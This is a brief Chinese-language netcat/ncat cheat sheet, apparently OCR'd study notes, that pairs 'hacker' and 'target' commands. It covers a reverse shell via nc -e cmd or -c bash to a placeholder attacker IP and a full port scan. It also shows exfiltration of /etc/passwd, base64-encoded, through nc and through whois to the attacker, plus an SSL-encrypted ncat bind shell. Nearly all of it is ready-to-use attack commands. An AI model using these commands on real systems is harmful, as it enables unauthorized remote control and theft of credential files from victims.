 反向控制：

黑客：

nc -lp 3333

目标：

nc -nv [黑客ip] 3333 -e cmd

(如果目标是linux -c bash)

nc -nvz [目标ip] 1-65535

使用nc查看对方端口是否开放

linux加密传输

目标：

cat /etc/passwd | base64 | nc -nv [黑客ip] 3333 -q 1

黑客：

nc -l -p 3333 > kali.txt

------

传输文件

目标：

nc -nv [黑客ip] 3333 <./[要传的文件]

黑客：

nc -lp 3333 > xx.txt

------

两台都是Linux的情况

目标:

whois -h [黑客ip] -p 4444 `cat /etc/passwd | base64`

黑客：

nc -l -v -p 4444 | sed “s/ //g” | base64 -d

------

两台都是linux，并且要加密通信

nc的加密版ncat

目标：

ncat -c bash –allow [黑客ip] -vnl 3333 –ssl 只允许黑客的ip去控制它

黑客：

nc -nv [目标ip] 3333 –ssl

------
